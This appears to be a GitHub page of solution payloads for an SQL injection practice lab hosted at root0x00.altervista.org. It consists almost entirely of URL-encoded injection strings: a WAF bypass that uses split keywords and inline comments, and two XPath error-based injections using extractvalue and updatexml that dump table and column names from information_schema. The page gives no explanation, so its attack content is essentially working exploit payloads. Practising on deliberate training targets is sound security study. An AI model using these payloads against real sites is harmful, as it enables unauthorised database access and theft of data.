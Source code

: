 # [MAIN PAGE](http://root0x00.altervista.org/sqli/)

## WAF BYPASS LEVEL 3 MEDIUM~MEDIUM
```
http://root0x00.altervista.org/sqli/level1.php?id=11%27/**/Ununionion/**/seselectlect/**/1,2,3,4,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name=%27BlueMilkshake_0
```

## XPATH LEVEL 1

```
http://root0x00.altervista.org/sqli/xpath.php?id=1%27%20and%20extractvalue(0x0a,concat(0x0a,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database())))--+
```

## XPATH LEVEL 2
```
http://root0x00.altervista.org/sqli/xpath2.php?id=1%27%20and%20updatexml(null,concat(0x3a,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database())),null)--+
```
